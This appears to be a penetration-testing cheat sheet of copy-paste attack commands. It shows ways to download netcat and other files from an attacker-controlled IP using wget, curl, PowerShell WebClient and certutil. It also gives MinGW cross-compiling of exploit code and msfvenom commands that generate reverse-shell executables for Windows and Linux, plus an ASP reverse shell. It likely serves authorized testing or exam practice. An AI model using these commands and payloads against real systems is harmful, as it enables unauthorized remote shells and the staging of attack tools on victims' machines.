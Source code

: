 ## Downloading
```
wget http://<ip>/nc.exe -o nc.exe  
curl http://<ip>/nc.exe -o nc.exe  
powershell (New-Object System.Net.WebClient).DownloadFile("https://<ip>/test.txt", "test.txt")
certutil -urlcache -f http://<ip>/file file
```

# Exploits

- 1 Meterpreter payload only against 1 system
- Use rlwrap for netcat when catching rev shells

## Cross-Compiling
```
sudo apt install mingw-w64
i686-w64-mingw32-gcc exploit.c -o exploit.exe
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

## Windows 32 Bit
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

## Windows 64 bit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Linux 32 Bit
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

## Linux 64 Bit
```
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## ASP
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```
